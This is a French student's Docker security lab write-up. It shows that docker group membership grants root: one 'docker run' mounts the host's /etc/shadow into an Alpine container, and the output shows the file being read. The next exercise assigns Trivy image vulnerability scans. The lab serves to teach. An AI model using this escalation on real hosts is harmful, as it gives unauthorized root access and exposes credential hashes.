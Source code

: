 Cela découle sur le fait que vous avez les droits root sur la machine. Sans utiliser aucune commande sudo, sans devenir root, sans même connaître son mot de passe ni rien, si vous êtes membres du groupe docker vous pouvez devenir root sur la machine.
🌞 Prouvez que vous pouvez devenir root

en étant membre du groupe docker

sans taper aucune commande sudo ou su ou ce genre de choses
normalement, une seule commande docker run suffit
pour prouver que vous êtes root, plein de moyens possibles

par exemple un cat /etc/shadow qui contient les hash des mots de passe de la machine hôte
normalement, seul root peut le faire
```
sacha@test:~/partie3/app$ docker run -it -v /etc/shadow:/etc/shadow alpine sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
f18232174bc9: Already exists
Digest: sha256:a8560b36e8b8210634f77d9f7f9efd7ffa463e380b75e2e74aff4511df3ef88c
Status: Downloaded newer image for alpine:latest
/ # cat /etc/shadow
root:*:20140:0:99999:7:::
daemon:*:20140:0:99999:7:::
bin:*:20140:0:99999:7:::
sys:*:20140:0:99999:7:::
sync:*:20140:0:99999:7:::
...
```

2. Scan de vuln
Il existe des outils dédiés au scan de vulnérabilités dans des images Docker.
C'est le cas de Trivy par exemple.
🌞 Utilisez Trivy

effectuez un scan de vulnérabilités sur des images précédemment mises en oeuvre :

celle de WikiJS que vous avez build
celle de sa base de données
l'image de Apache que vous avez build
l'image de NGINX officielle utilisée dans la première partie
